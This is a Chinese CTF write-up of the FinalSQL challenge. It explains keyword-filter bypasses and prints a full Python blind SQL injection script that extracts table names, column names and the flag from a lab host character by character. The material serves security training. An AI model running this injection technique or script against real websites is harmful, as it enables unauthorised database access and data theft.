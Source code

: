 ```yaml
---
title: 极客大挑战 2019 FinalSQL
date: 2021-04-18 19:11:51
categories:  ['CTF']
tags: ['sql注入']
cover: https://cdn.jsdelivr.net/gh/guobang-yoo/PicBed@master/cover/20201120232228.png
---
```


还是同一场比赛的界面

![](https://cdn.jsdelivr.net/gh/guobang-yoo/PicBed@master/artical/20210416224503.png)

这次测试了下面的登陆框已经不能用了，无论怎么输入都是同一个回显：**你可别被我逮住了，臭弟弟**，测试上面的序号，注意此时的url中有`?id=`猜测是一个注入点，输入单引号一直报错，但是输入2-1时成功回显，判断是一个**数字型**注入，数字型注入最多遇到的就是结合盲注，接下来是测试盲注的过滤。

发现if、union、and等被过滤，在整个字符串中如果出现空格会被拦下，ord、ascii等转换字符没有被过滤，if被过滤可以使用strcmp函数等代替，空格可以使用括号绕过。

贴出来自己的脚本：

```python
# codeing=utf-8
import requests
import time

url='http://1e069783-5d06-4d70-af82-c457e0d11a52.node3.buuoj.cn/search.php?id='
result=''

for x in range(1, 100):
	high = 127
	low = 32
	mid = (low + high) // 2
	while high>low:
		# sql="(ORD(SUBSTR((select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())),%d,1))=%d)"%(i,c)
		# sql = "(ORD(SUBSTR((select(group_concat(column_name))from(information_schema.columns)where(table_name='F1naI1y')),%d,1))>%d)" % (x, mid)
		sql = "(ORD(SUBSTR((select(group_concat(password))from(F1naI1y)where(id=9)),%d,1))>%d)" % (x, mid)
		time.sleep(0.1)
		reponse=requests.get(url+sql)
		if "Click" in reponse.text:
			low=mid+1
		else:
			high = mid
		mid = (low+high)/2

	result += chr(int(mid))
	print(result)

```

我是直接使用了判断字符的返回值1或0作为id的参数，因为使用**group_concat**拼接时字符串有逗号`,`所以字符ascii需要至少从44开始。

下面是查询到的两个表F1naI1y 、Flaaaaag及结构

> F1naI1y  ====>  id,username,password
>
> Flaaaaag  ====> id,fl4gawsl

在第九项可以查得到flag，上面的sql语句已经准备好了。第一个是查询表名的，第二个是查询字段名，第三个是得到flag

